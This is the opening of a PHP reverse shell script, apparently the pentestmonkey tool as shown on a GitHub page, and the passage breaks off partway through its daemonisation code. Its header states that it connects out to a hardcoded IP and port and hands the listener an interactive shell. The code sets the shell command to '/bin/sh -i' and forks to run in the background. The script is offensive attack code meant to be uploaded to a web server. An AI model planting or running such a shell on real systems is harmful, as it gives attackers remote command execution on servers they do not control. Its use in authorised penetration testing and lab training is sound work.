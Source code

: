 ```php
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '';  // Your tun0 ip (ifconfig in terminal)
$port = 9999;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
```